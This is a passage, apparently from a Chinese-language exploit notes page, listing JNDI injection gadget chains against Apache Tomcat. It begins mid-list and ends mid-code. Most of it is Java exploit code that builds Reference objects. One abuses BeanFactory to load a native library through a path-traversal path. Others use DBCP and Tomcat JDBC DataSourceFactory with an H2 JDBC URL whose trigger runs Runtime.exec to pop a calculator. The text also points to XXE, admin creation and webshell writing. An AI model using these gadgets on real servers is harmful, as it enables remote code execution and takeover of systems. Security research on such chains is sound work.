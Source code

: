     需要能够通过WEB功能或者写文件gadget上传一个动态链接库(例如下面的libcmd)来加载并执行命令。
    
    ```java
    private static ResourceRef tomcat_loadLibrary(){
       ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
       ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
       return ref;
    }
    ```
7. org.apache.catalina.users.MemoryUserDatabaseFactory
    
    这里能做的事情很多,[XXE](https://tttang.com/archive/1405/#toc_xxe),[RCE](https://tttang.com/archive/1405/#toc_rce),[创建Tomcat管理员](https://tttang.com/archive/1405/#toc_tomcat),[写 Webshell](https://tttang.com/archive/1405/#toc_webshell)
8. org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory#configureDataSource
    
    ```java
    private static Reference tomcat_dbcp2_RCE(){
       return dbcpByFactory("org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory");
    }
    private static Reference tomcat_dbcp1_RCE(){
       return dbcpByFactory("org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory");
    }
    private static Reference commons_dbcp2_RCE(){
       return dbcpByFactory("org.apache.commons.dbcp2.BasicDataSourceFactory");
    }
    private static Reference commons_dbcp1_RCE(){
       return dbcpByFactory("org.apache.commons.dbcp.BasicDataSourceFactory");
    }
    private static Reference dbcpByFactory(String factory){
       Reference ref = new Reference("javax.sql.DataSource",factory,null);
       String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
               "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
               "java.lang.Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')\n" +
               "$$\n";
       ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
       ref.add(new StringRefAddr("url",JDBC_URL));
       ref.add(new StringRefAddr("username","root"));
       ref.add(new StringRefAddr("password","password"));
       ref.add(new StringRefAddr("initialSize","1"));
       return ref;
    }
    ```
9. org.apache.tomcat.jdbc.pool.DataSourceFactory
    
    ```java
    private static Reference tomcat_JDBC_RCE(){
       return dbcpByFactory("org.apache.tomcat.jdbc.pool.DataSourceFactory");
    }
    private static Reference dbcpByFactory(String factory){
       Reference ref = new Reference("javax.sql.DataSource",factory,null);
       String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
               "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
               "java.lang.Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')\n" +
               "$$\n";
       ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
       ref.add(new StringRefAddr("url",JDBC_URL));
       ref.add(new StringRefAddr("username","root"));
       ref.add(new StringRefAddr("password","password"));